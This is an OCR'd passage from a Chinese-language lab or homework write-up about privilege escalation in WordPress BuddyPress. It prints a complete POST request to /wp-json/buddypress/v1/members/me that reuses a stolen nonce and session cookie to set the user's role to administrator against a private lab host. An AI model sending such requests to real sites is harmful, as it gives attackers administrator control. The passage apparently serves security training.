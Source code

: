         **X-WP-Nonce:** ``cb16f80772``

3. **构造提权请求**
   - 使用提取的 `X-WP-Nonce` 和 `Cookie` 构造 POST 请求，发送到 `/wp-json/buddypress/v1/members/me`。
   - 请求体如下：
     ```json
     {"roles": "administrator"}
     ```
   - 完整请求包：
        ```http
        POST /wp-json/buddypress/v1/members/me HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        X-WP-Nonce: cb16f80772
        Cookie: grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821SS
        Content-Type: application/json; charset=UTF-8
        Content-Length: 28
        {"roles": "administrator"}
        ```
     ![1747890470194](image/homework/1747890470194.png)